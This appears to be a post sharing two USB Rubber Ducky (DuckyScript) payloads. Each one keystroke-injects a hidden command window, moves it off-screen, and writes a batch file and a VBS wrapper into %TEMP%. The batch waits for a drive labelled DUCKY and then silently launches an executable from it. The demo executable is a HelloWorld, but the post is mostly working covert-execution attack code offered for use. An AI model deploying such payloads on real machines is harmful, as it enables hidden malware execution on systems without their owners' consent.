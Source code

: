 The following is a payload I have been working on that waits until a drive labeled "DUCKY" is mounted. I have used some of midnightsnake's code in this payload. The name of the file that is run can be changed to .exe, I am just having it run a batch for testing purposes. The line that says "STRING START %myd%\myEXE.bat" is the line that executes the executable.

```
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Run an executable file off of the SD card after it mounts. 
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 25
DELAY 3000
GUI r
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') 
do set myd=%%d
ENTER
STRING if Exist %myd% (
ENTER
STRING goto :break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto :while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING START %myd%\HelloWorld.exe
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

The following is the batch file that is run after the "DUCKY" drive has been mounted. Everything is being run invisibly, so you will need to check for the existence of "Message.txt" which will probably be in "C:\Windows\system32".

```
REM Message.txt
echo Hello Wolrd!!!
echo Hello World!!! > Message.txt
```

The encoders now support the repeat command, so should only be a problem if you are using an old encoder. Encoders also now support white space in the duck script, so functions have been separated with white space. 

The following is a newer version of the RunEXE from SD payload which uses googleknowsbest's method for finding the "DUCKY" drive, which is more portable than the previous version's method. This version should work on all current Windows versions. Ex... XP, Vista, and Windows 7. 

```
REM Author: overwraith
REM Name: RunEXE_V2.txt
REM Purpose: Run an executable file off of the SD card after it mounts. Uses googleknowsbest's slightly more portable method to find the "Ducky" drive. 
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 75
DELAY 3000
GUI r
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER
STRING for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)
ENTER
STRING if Exist %DUCKYdrive% (
ENTER
STRING goto :break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto :while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING START %DUCKYdrive%\HelloWorld.exe
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
REM STRING EXIT
REM ENTER
```
